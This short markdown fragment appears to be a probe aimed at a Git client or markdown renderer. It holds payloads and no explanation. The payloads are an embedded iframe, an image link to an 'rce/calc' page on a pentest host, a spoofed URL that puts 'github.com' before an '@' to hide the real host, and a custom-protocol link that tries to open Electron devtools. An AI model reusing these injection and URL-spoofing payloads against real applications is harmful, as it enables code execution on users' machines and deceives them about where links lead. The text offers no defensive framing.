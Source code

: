 <iframe src="http://baidu.com">
![ ](https://pentesthook.cn/rce/calc.html)


https://github.com/user-attachments/assets/33fa590c-674c-42f2-b75c-64c43aa0ccf7



https://github.com@pentesthook.cn/rce/calc.html


x-ugit-client://webContents.openDevTools()
123
